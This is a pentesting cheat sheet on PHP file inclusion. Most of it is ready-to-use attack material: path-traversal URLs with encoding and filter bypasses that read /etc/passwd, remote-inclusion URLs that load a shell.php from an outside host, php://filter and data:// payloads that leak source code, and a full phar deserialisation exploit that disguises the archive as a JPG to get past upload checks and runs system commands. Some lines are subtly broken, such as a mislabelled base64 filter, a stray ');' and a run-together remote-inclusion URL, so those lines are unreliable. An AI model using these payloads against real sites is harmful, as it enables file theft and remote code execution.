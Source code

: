 # File inclusion
A vulnerability that allows attackers to access private resources.

# Local File Inclusion (LFI)
The server loads a local file.

## Basic LFI and bypasses
```
http://domain.com/index.php?page=../../../etc/passwd
```

### URL encoding
One can try to URL encode the path either once or numerous times.
```
http://domain.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://domain.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### Filter bypasses
```
http://domain.com/index.php?page=....//....//etc/passwd
http://domain.com/index.php?page=..///////..////..//////etc/passwd
http://domain.com/index.php?page=PhP://filter
```

# Remote File Inclusion (RFI)
The server loads a file which is hosted on another server.      
RFI can only take place if  `allow_url_include` is turned on.

## Basic RFI and bypasses

```
http://domain.com/index.php?page=http://remote.com/shell.php
http://domain.com/index.php?page=\\remote.com\shell.phpattacker.com\mal.php
```



# PHP wrappers
## php://filter
PHP filters allow one to perform modification on data before it's being read by the server.     
Some of the techniques below can be used to bypass restrictions and filters set by the server.

```
# BASE64 encode data
http://domain.com/index.php?page=php://filter/convert.base64-decode/resource=/etc/passwd);
```

### data://
```
http://domain.com/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://domain.com/?page=data://text/plain,<?php phpinfo(); ?>
```

## phar:// and phar deserialisation
A `.phar` file is a PHP archive. One can upload such file and execute code when it is being loaded.   
It contains metadata in a serialised format. When parsed on the server said metadata gets deserialised.

Even if the source code on the server is not using the `eval` function, the following other methods will still invoke the vulnerability. `file_get_contents()`,`fopen()`,`file()`,`file_exists()`,`md5_file()`,`filemtime()`,`filesize()`

- [More detail](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)

### Exploitation
1. Pretend that this is the source code of the server.
	```php
	# server.php
	<?php
	class ReadFile{
		public $data = null;
		
		public function __construct($data) {
			$this->data = $data;
		}
		
		function __destruct() {
			system($this->data);
		}
	}

	file_get_contents("phar://pwned.phar");

	?>
	```

2. This is the code that will make the phar file.
	```php
	# make_phar.php
	<?php
	class ReadFile{
		public $data = null;
		
		public function __construct($data) {
			$this->data = $data;
		}
		
		function __destruct() {
			system($this->data);
		}
	}
	
	# Make phar
	$phar = new Phar('pwned.phar');
	$phar->startBuffering();
	$phar->addFromString('test.txt', 'text');
	$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");
	
	# Add object of class as metadata
	$object = new ReadFile('whoami');
	$phar->setMetadata($object);
	$phar->stopBuffering();
	?>
	```
*Magic bytes of JPG* `\xff\xd8\xff` *have been added to the phar file to bypass file upload restrictions*

3. Compile `pwned.phar` with:
	```bash
	php --define phar.readonly=0 make_phar.php
	```

# References
- [https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)